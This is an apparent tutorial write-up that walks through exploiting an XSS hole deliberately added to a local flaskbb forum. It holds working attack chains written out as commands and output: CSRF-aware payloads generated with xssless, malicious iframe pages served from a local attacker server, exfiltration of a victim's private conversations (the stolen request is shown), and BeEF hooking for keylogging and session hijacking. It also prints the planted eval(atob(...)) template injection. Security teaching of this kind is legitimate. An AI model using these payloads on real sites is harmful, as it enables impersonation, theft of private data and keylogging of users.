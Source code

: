 Attacks
=======
Given a vulnerable application, we will try to develop some realistic attack scenarios. The focus is really not on triggering the XSS, but rather demonstrating ways to fully exploit it.
First we will setup a vulnerable application, then propose 3 different attacks :

    - execute actions on behalf of user
    - steal private information
    - Man In the Browser attack : interactive session hijacking, keylogger, browser exploits...
        
I. Setup the vulnerable application : a forum.
----------------------------------------------
In an attempt to be as realistic as possible, we decided to start with a real full-fledged application. We choose flaskbb[0], a forum developped in python using flask.

First step is to add our extra XSS "feature". We kept it simple by adding a new route to the project, where you can provide base64-encoded javascript to be executed. For example, executing "alert(1)" will look like this :

    localhost:8080/xss/YWxlcnQoMSkK

![Demo : alert(1)](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/alert.png)

The base64 is a handy way to avoid conflicts between our payloads and flask's route matching rules[A], and more important allows us to bypass flask's parameters sanitizing before template generation. It will also work around any protection from the browser. Implementation steps are provided here[1]

Bonus : flaskbb is kind enough to come in the dev version with a test function to populate it with dummy users, topics and posts !

II. Post a message on behalf of a user.
---------------------------------------
First, let's introduce two tools that we will use : 

    burp[2] : an http proxy, often used in web penetration tests because it is awesome. We will just scratch the surface here, using it to log our http traffic.
    xssless[3] : a python script to generate XSS payloads from burp's logs. Best part is that it takes care of crsf tokens (nonces) !

The procedure is as follow : 

    1) log in with a user we control.
    2) start burp's interception
    3) post a new message.
    4) export burp's logs
    5) list the csrf tokens
    6) run xssless
    7) modify the payload with our malicious message
    8) craft our exploit
    9) expose targeted users to our exploit

Steps 1-4 I won't describe.

Step 5 : In the requests that burp intercepted, we look for any parameter that might be a csrf token. It's usually obvious, and it certainly is here.

    echo 'csrf_token' > params

Step 6 : Xssless is nice because we don't even have to have a deep look into what's going on. We could probably skip some requests, but we know that repoducing step by step what we recorded will work. We just need to tell it which parameters to adapt dynamically.

    python2 ~/secu/xssless/xssless.py -s -p params ../burp-logs/post-topic.burp > post-topic.js

You can see it here[4].

Step 7 : Now you can edit the payload to replace the title or content of the post you want. 

    grep content post-topic.js
        [...] &title=I+think&content=I%27ve+been+hacked+%3A%28 [...]

Just don't forget to url-encode your texts.

Step 8 : At this point we should run our payload through a js minifyer. Here we won't, for the sake of simplicity. To have a working exploit we need however the base64 of our payload, and to remove the script tag :
    
    grep -v script post-topic.js | base64 -w0 > post-topic.b64

Step 9 : Now, all we have to do is put it somewhere on internet and bring authenticated users of our forum to visit it.

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/post-topic.b64)'></iframe>" > malicious-website/post-topic.html
    cd malicious-website && python3 -m http.server 1337

Step 10 : profit !  
![Exploit : Post a message on behalf of a victim](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/post-topic.png)

III. Read a user's private conversations.
-----------------------------------------
Of course, like any exploit, this one is dirty as heck[4]. But hey, it kind of works.

    base64 -w0 read-private.js > read-private.b64

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/read-private.b64)'></iframe>" > malicious-website/read-private.html
    cd malicious-website && python3 -m http.server 1337

When someone (test2 in my case) visits localhost:1337/read-private.html, after a short while our malicious server receives another request :

    "GET /%5B%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test1%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20Private%20conversation%20is%20private%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20Or%20is%20it%20%3F%20%22%0A%20%20%7D%2C%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test3%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20Another%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20%E2%80%9Cprivate%E2%80%9D%20conversation%20%22%0A%20%20%7D%2C%0A%20%20%7B%0A%20%20%20%20%22author%22%3A%20%22test3%22%2C%0A%20%20%20%20%22title%22%3A%20%22%20last%20%22%2C%0A%20%20%20%20%22content%22%3A%20%22%20of%20thoses%20%22%0A%20%20%7D%0A%5D HTTP/1.1" 404 -

    >> rcv="%5B%0...7D%0A%5D"
    >> python2 -c "from urllib import unquote; print unquote('$rcv');"
        [
          {
            "author": "test1",
            "title": " Private conversation is private ",
            "content": " Or is it ? "
          },
          {
            "author": "test3",
            "title": " Another ",
            "content": " “private” conversation "
          },
          {
            "author": "test3",
            "title": " last ",
            "content": " of thoses "
          }
        ]

![Exploit : reading private messages](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/read-private.png)


IV. Steal a user's password, and beyond ! Man In the Browser.
-------------------------------------------------------------

BeEF[6] : It means Browser Exploitation Framework, blablabla
    
Add a beef hook to our page :

    base64 -w0 add-hook.js > add-hook.b64

    echo "<iframe src='http://localhost:8080/xss/$(cat payloads/add-hook.b64)'></iframe>" > malicious-website/add-hook.html
    cd malicious-website && python3 -m http.server 1337

Start beef server, and wait for a visitor.

![BeEF : ui](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/beef-1.png)

Key logger
    
    Start the Man In the Browser attack to keep the target hooked when it follows links on the current domain.

![Demo : MItB](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/beef-MItB.png)

    All actions and inputs are recorded under the "logs" panel.

![BeEF : keylogger](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/beef-keylogger.png)
    
Interactive session hijacking

        Beef > target > use as proxy

![BeEF : use as proxy](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/beef-useproxy.png)

        chromium --temp-profile --proxy-server=localhost:6789

![BeEF : proxy](https://raw.githubusercontent.com/centime/xss-paper/master/screenshots/beef-proxy.png)

    Unfortunately, I couldn't manage to get it to work. The requests stay blocked somewhere between BeEF and the zombie... 


V. Going further.
-----------------
    xssless : worms !


NBs
---
[A] But here I learnt that b64 is "a-zA-Z0-9=" AND... "/".
    I can't figure out why, it seems so broken, but here it is : b64encode('t ?') == 'dCA/Cg=='
    So my url pattern may be broken by b64. Doesn't happen often though.


Refs
----
    [0] https://github.com/sh4nks/flaskbb
    [1] The following modifications have been made to flaskbb[0] :
            forum/views.py (l35-66)
                @forum.route("/xss/<payload>")
                def index(payload):
                [...]
                return( [...],
                    payload=payload)

            templates/forum/index.html (l4)
                <script>eval(atob("{{ payload }}"))</script>
        Also, because of a bug I removed thoses lines :
            templates/forum/topic.html
                {% if topic.first_post_id == post.id %}
                    {% if current_user|delete_topic(topic.first_post.user_id, topic.forum) %}
                    <a href="{{ url_for('forum.delete_topic', topic_id=topic.id, slug=topic.slug) }}">Delete</a> |
                    {% endif %}
                {% else %}
                    {% if current_user|delete_post(post.user_id, topic.forum) %}
                    <a href="{{ url_for('forum.delete_post', post_id=post.id) }}">Delete</a> |
                    {% endif %}
                {% endif %}
        and didn't investigate any further...
    [2] http://portswigger.net/burp/
    [3] https://github.com/mandatoryprogrammer/xssless
    [4] https://github.com/centime/xss-paper/blob/master/payloads/post-topic.js
    [5] https://github.com/centime/xss-paper/blob/master/payloads/read-private.js
    [6] http://beefproject.com/
